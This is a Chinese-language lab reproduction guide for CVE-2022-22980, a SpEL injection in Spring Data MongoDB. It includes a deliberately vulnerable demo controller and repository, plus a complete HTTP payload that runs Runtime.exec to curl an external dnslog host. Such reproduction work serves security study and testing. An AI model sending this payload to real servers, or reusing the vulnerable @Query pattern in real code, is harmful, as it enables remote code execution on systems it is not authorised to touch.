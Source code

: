 # CVE-2022-22980 Spring Data MongoDB SpEL表达式注入漏洞

​	Spring Data for MongoDB 是 Spring Data 项目的一部分，该项目旨在为新数据存储提供熟悉且一致的基于 Spring 的编程模型，同时保留特定于存储的特性和功能。Spring Data MongoDB 项目提供与 MongoDB 文档数据库的集成。Spring Data MongoDB 的关键功能是以 POJO 为中心的模型，用于与 MongoDB DBCollection 交互并轻松编写 Repository 样式的数据访问层。

​	Spring Data MongoDB为MongoDB提供接口服务，便于接入Spring软件生态中使用。当使用@Query或@Aggregation注解进行查询时，若通过SpEL占位符获取输入参数，并且未对用户输入进行有效过滤，则可能受该漏洞影响。在前述条件下，攻击者可利用该漏洞，构造恶意数据执行远程代码，最终获取服务器权限。



**项目地址**

https://spring.io/projects/spring-data-mongodb

参考链接：

- https://github.com/threedr3am/learnjavabug/tree/master/spring/spring-data-mongodb-spel-CVE-2022-22980
- https://spring.io/security/cve-2022-22980

## 漏洞环境



执行如下命令启动一个spring-data-mongodb-demo-web服务：

```
docker compose up -d
```



服务启动后，访问`http://your-ip:8080/demo`即可查看到mongodb demo示例。



demo示例

```java
@RestController
public class DemoController {

  private final DemoRepository demoRepository;

  public DemoController(DemoRepository demoRepository) {
    this.demoRepository = demoRepository;
  }

  @RequestMapping(value = "/demo")
  public List<?> demo(@RequestParam(name = "keyword") String keyword) {
    return demoRepository.findAllByIdLike(keyword);
  }
}
```



```java
@org.springframework.stereotype.Repository
public interface DemoRepository extends Repository<Demo, String> {

  @Query("{ id : :#{?0} }")
  List<Demo> findAllByIdLike(String keyword);

}
```



## 漏洞复现

向demo打入如下payload

```
POST /demo HTTP/1.1
Host: your-ip:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

keyword=T(java.lang.String).forName('java.lang.Runtime').getRuntime().exec('curl ivjsu3.dnslog.cn')
```

![image-20240329153637561](./1.png)